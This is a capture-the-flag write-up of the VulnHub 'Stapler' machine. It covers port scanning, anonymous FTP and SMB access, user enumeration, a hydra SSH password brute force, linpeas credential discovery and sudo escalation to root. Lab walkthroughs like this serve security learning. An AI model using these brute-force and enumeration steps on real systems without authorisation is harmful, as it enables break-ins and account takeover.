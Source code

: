 # Pre-Engagement
I downloaded the box from VulnHub, and created a virtual machine giving it a
bridged adapter. The machine's IP address has been aliased to `stapler` within
my `/etc/hosts` file. However, you may find different IPs referring to `stapler`
throughout the writeup. This because sometimes I'm doing the machine from the
Proving Grounds website as well. It could also be because I'm a mess.

# Reconnaissance
Going with the ritual, I use `nmap` to scan all of the ports.
`nmap -p- -T4 -oN nmap/initial stapler`

The scan reveals the following.
```
Host is up (0.16s latency).
Not shown: 65523 filtered tcp ports (no-response)
PORT      STATE  SERVICE
20/tcp    closed ftp-data
21/tcp    open   ftp
22/tcp    open   ssh
53/tcp    open   domain
80/tcp    open   http
123/tcp   closed ntp
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn
666/tcp   open   doom
3306/tcp  open   mysql
12380/tcp open   unknown
```
I looked into some of those ports in detail.
`nmap -p 12380,80,3306,666,21 -sC -sV -oN nmap/detail stapler`
```
Host is up (0.0013s latency).

PORT      STATE SERVICE    VERSION
21/tcp    open  ftp        vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.1.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
80/tcp    open  http       PHP cli server 5.5 or later
|_http-title: 404 Not Found
666/tcp   open  tcpwrapped
3306/tcp  open  mysql      MySQL 5.7.12-0ubuntu1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.12-0ubuntu1
|   Thread ID: 22
|   Capabilities flags: 63487
|   Some Capabilities: SupportsTransactions, IgnoreSigpipes, Speaks41ProtocolOld, LongPassword, SupportsCompression, FoundRows, Support41Auth, LongColumnFlag, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, ODBCClient, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, InteractiveClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: \x08\x04%\x170O\x1A\x06
| 2c\x0Ej#8\x17eCO|
|_  Auth Plugin Name: mysql_native_password
12380/tcp open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tim, we need to-do better next year for Initech
```

# Vulnerability Analysis
We notice that anonymous login is allowed for ftp. I tried logging in.
```
❯ ftp stapler
Connected to stapler.
220-|-----------------------------------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|-----------------------------------------------------------------------------------------|
Name (stapler:pratik): anonymous
331 Please specify the password.
Password:
230 Login successful.
Using binary mode to transfer files.
ftp> ls
-rw-r--r--    1 0        0             107 Jun 03  2016 note
ftp> get note
150 Opening BINARY mode data connection for note (107 bytes).
226 Transfer complete.
107 bytes received in 0.000396 seconds (264 kbytes/s)
```
There was nothing except the `note` file with the contents:
```
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
```
There have been names all over the place, though. So, that's interesting.

I tried connecting to the `doom` service at port 666:
```
nc stapler 666
```
And that returned some binary data. I save it to a file and do `file` on it:
```
❯ nc stapler 666 > doom
❯ file doom
doom: Zip archive data, at least v2.0 to extract, compression method=deflate
```

A zip archive? Hmmm... Tried unzipping it, it inflated a `message2.jpg` image.

![message2.jpg](./message2.jpg)

I had also noticed some SMB ports.
```
❮ smbclient -L //stapler/
Password for [WORKGROUP\pratik]:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	kathy           Disk      Fred, What are we doing here?
	tmp             Disk      All temporary files should be stored here
	IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
```
And apparently the shares require no password to access. So I mounted the
`kathy` share onto my local system. I had to give the `-o vers=1.0` because
without it, I'd get an error.
```
❯ doas mount -t cifs -o vers=1.0 //stapler/kathy/ /mnt
❮ cd /mnt

❯ ls -R
 backup/   kathy_stuff/

./backup:
 vsftpd.conf   wordpress-4.tar.gz

./kathy_stuff:
 todo-list.txt
```
Nothing inside, really.

# Exploitation
I wanted to see if we could do anything about the SMB service. I looked up on
the internet to see how I could enumerate on it. I came across [this](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/) guide
and basically just followed some of the steps. I tried `nmap`'s scripts and they
didn't give me any interesting results neither did `metasploit`. However, near
the end there was the tool `enum4linux`. I tried it out on the machine and it
gave me a bunch of interesting information.
```
❯ enum4linux stapler > enum4linux/scan
```
At the end of its output, we see some usernames.
![enum4linux](./enum4linux.png)
I decided to put those usernames into a `users.txt` file and load up `hydra`
with the same file as usernames as well as password list.
```
hydra -L users.txt -P users.txt stapler ssh
```
And it got a successful login after a while for the user `SHayslett` with the
same password. Logging in with those credentials allowed me in to the machine.
The first thing I needed to do now was find the local flag. Having been
experienced enough with this, I knew that the flag is located inside a
`local.txt` file. I used `find` to search the entire file system for that file.
```
SHayslett@red:~$ find / -type f -name "local.txt" 2> /dev/null
/home/local.txt
```
And the local flag was discovered.

# Privilege Escalation
I downloaded the `linpeas.sh` script onto the machine and let it run for a
while. Looking at its output conveniently got me some credentials.

![linpeas](./linpeas.png)

I tried my luck with the first user, but it wasn't any special. Logging in as
`peter`, though revealed something. There was a file named `.sudo-as-admin-successful`
which was enough of a hint for me to try `sudo -l` and well, I could run any
command as root. So what I did then is an obvious step: `sudo su -`. That got me
to the root flag.

![root flag](./proof.png)
